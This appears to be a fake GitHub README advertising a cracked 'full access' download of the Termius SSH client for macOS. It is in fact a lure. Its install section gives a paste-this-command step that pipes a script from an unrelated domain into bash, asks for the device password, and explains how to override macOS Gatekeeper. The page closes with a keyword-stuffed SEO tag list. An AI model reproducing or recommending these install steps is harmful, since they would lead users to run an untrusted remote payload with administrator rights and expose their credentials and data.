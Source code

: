 <p align="center">
  <img src="https://i.ibb.co/VWVpYcbF/fdfdfdfd.webp" width="350" alt="Termius macOS Banner" />
</p>

<h1 align="center">Termius for macOS</h1>

<p align="center">
  🔐 Advanced SSH client and terminal app for macOS. Manage servers, organize keys, and run secure remote sessions with an intuitive interface.  
  <br><br>
  ✅ Apple Silicon Native  
  ✅ Works with Ventura, Monterey, Sonoma  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/292" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20TERMIUS%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Termius for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/39JzC2Zn/1697226610-4.webp" alt="Termius Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Termius for macOS?

**Termius** is a full-featured SSH, SFTP, and terminal client built for managing Linux, Unix, and networked systems from macOS. With a clean user interface, cross-device sync, and keychain management, Termius is the go-to tool for sysadmins, devops, and remote workers.

It supports local terminal sessions, SSH key authentication, connection grouping, and secure storage — all in a native Apple Silicon-ready package.

---

## ✅ Why Choose Termius?

- 🔐 **Secure SSH with Key & Password Auth**  
- 📁 **SFTP File Transfer Built-In**  
- 🧠 **Connection Groups and Tags**  
- 📱 **Cross-Platform Sync**  
- 🧬 **Snippet and Command Reuse**  
- 🖥️ **Tabbed Terminal Sessions**  
- 🍎 **Fully Optimized for Apple Silicon**  
- 🌐 **Works Online and Offline**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/yCnd8vb/1697226611-2.webp" alt="Multiple SSH Sessions View" />
  <br><br>
  <img src="https://i.ibb.co/6RLrfVkc/1697226610-3.webp" alt="Key Management and Host Organization" />
</p>

---

## 🚀 Key Features

- SSH, SFTP, and Mosh support  
- Snippet library and command history  
- Grouped hosts, tags, and environment variables  
- Cross-platform sync (macOS, iOS, Windows, Linux)  
- Secure credential and key management  
- Apple Silicon and Intel native  
- Local terminal access  
- Optional offline usage

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Termius manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Terminal-SSH+SFTP+Mosh+Sync-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Native-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Termius – Your SSH Toolbox

Thanks for using **Termius for macOS**.  
Secure, efficient, and powerful terminal access.

---

## 🧭 Usage Context

Termius is ideal for remote server admins, sysadmins, and anyone managing Linux environments.  
All credentials are stored locally unless sync is enabled.

---

## 🔍 Tags

```text
termius mac download, ssh client for macos apple silicon, terminal app with key manager mac, secure shell tool macbook m1 m2 m3, sftp and ssh terminal software mac, remote server management mac os x, professional ssh terminal for developers, termius full version offline mac, cross platform ssh client macbook, organize ssh keys and groups mac, mac native sftp ssh command line, devops remote connection tool mac, encrypted ssh access mac m1, termius download for intel mac, mac terminal with snippet library
